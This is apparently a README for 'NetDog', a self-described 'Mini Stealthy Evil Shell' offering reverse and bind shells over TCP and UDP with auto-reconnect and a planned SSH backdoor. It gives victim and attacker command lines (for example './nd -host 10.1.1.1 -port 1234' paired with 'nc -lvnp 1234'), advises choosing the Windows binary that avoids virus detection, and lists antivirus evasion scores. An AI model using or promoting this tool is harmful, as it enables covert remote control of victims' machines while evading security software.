 # NetDog
Mini Stealthy Evil Shell

## Roadmap
- Reverse Shell
    - [x] TCP
    - [x] UDP
    - [ ] HTTP/S
    - [ ] ICMP
- Bind Shell
    - [x] TCP
    - [x] UDP
- Others
    - [ ] IPv6
    - [ ] Encryption
    - [x] Auto reconnect
    - [ ] SSH backdoor server

## Choosing binary
- There are only 2 types: `nd` (linux/amd64) `nd.exe` (windows/amd64)  
- For windows, choose the one without upx to avoid being detected as virus.  

## Reverse shell
```
+--------------------------------+            +--------------------------------+
|                                |            |                                |
|                         victim +------------> attacker (10.1.1.1)            |
| ./nd -host 10.1.1.1 -port 1234 |            | nc -lvnp 1234                  |
|                                |            |                                |
+--------------------------------+            +--------------------------------+
```

## Bind shell
```
+--------------------+            +--------------------+
|                    |            |                    |
|  victim (10.1.1.2) <------------+ attacker           |
|       ./nd -l 1234 |            | nc 10.1.1.2 1234   |
|                    |            |                    |
+--------------------+            +--------------------+
```

## AV status
2021-05-23 03:13:04 UTC

| type | size | score | windows defender |
| - | - | -| - |
|without upx | 2.2 MB|[4/69](https://www.virustotal.com/gui/file/b042c2498ab6ee36ce998842d4ed4592d46f55026677f1f6e750edf7b6a2411d/detection)| pass|
|with upx | 663 KB|[6/69](https://www.virustotal.com/gui/file/b6f9b09b20cda55d3e87d4f3c74971bffa65781c297ea4742c5987cc69b9b391/detection)| not pass|

## Usage
```
$./nd -h
Usage of ./nd:
  -host string
        Host (default "127.0.0.1")
  -l    Bind mode
  -port string
        Port (default "1234")
  -recon string
        Reconnecting Time (default "15s")
  -shell string
        Unix Shell (default "/bin/sh")
  -u    Enable UDP
```